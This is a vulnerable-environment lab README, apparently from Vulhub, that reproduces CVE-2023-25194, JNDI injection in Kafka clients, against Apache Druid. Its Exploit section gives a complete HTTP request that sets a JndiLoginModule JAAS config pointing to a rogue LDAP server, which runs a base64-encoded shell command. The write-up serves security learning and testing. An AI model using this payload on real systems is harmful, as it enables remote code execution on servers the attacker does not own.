 # Apache Kafka Clients JNDI injection RCE (CVE-2023-25194)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Kafka is an open-source distributed event streaming platform that is used for real-time data streaming and processing. Kafka clients are a set of Java libraries that allow you to produce and consume messages from Apache Kafka.

In the version prior to 3.3.2, there is a JNDI injection issue in the Apache Kafka clients if an attacker is able to set the `sasl.jaas.config` property for any of the connector's Kafka clients to `com.sun.security.auth.module.JndiLoginModule`. It will allow the server to connect to the attacker's LDAP server and deserialize the LDAP response, which the attacker can use to execute java deserialization gadget chains on the Kafka connect server. Attacker can cause unrestricted deserialization of untrusted data (or) RCE vulnerability when there are gadgets in the classpath.

Because this issue exists in a Java library, we have to find a real world software that is using the kafka-clients.

This software is Apache Druid, which is depended on kafka-clients to connect to one of its datasources. This guide is demonstrates how to exploit CVE-2023-25194 in the Apache Druid server.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-25194>
- <https://github.com/projectdiscovery/nuclei-templates/blob/5d90e8275084b0ae9166ec38cacd22e5a5a94fb8/http/vulnerabilities/apache/apache-druid-kafka-connect-rce.yaml>
- <https://hackerone.com/reports/1529790>

## Vulnerable Environment

Execute following command to start a Apache Druid server 25.0.0 which is depended on kafka-clients 3.3.1:

```
docker compose up -d
```

After server is started, you can see the home page of Apache Druid on `http://your-ip:8888`.

## Exploit

Firstly, use [JNDIExploit](https://github.com/vulhub/JNDIExploit) to start a rogue JNDI server:

![](1.png)

You will get some evil urls from this tool, modify it.

Paste the evil LDAP url into following request and send it:

```
POST /druid/indexer/v1/sampler?for=connect HTTP/1.1
Host: your-ip:8888
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 1792

{
    "type":"kafka",
    "spec":{
        "type":"kafka",
        "ioConfig":{
            "type":"kafka",
            "consumerProperties":{
                "bootstrap.servers":"127.0.0.1:6666",
                "sasl.mechanism":"SCRAM-SHA-256",
                "security.protocol":"SASL_SSL",
                "sasl.jaas.config":"com.sun.security.auth.module.JndiLoginModule required user.provider.url=\"ldap://roguo-jndi-server:1389/Basic/Command/base64/aWQgPiAvdG1wL3N1Y2Nlc3M=\" useFirstPass=\"true\" serviceName=\"x\" debug=\"true\" group.provider.url=\"xxx\";"
            },
            "topic":"test",
            "useEarliestOffset":true,
            "inputFormat":{
                "type":"regex",
                "pattern":"([\\s\\S]*)",
                "listDelimiter":"56616469-6de2-9da4-efb8-8f416e6e6965",
                "columns":[
                    "raw"
                ]
            }
        },
        "dataSchema":{
            "dataSource":"sample",
            "timestampSpec":{
                "column":"!!!_no_such_column_!!!",
                "missingValue":"1970-01-01T00:00:00Z"
            },
            "dimensionsSpec":{

            },
            "granularitySpec":{
                "rollup":false
            }
        },
        "tuningConfig":{
            "type":"kafka"
        }
    },
    "samplerConfig":{
        "numRows":500,
        "timeoutMs":15000
    }
}
```

![](2.png)

As you can see, `id > /tmp/success` was executed successfully:

![](3.png)
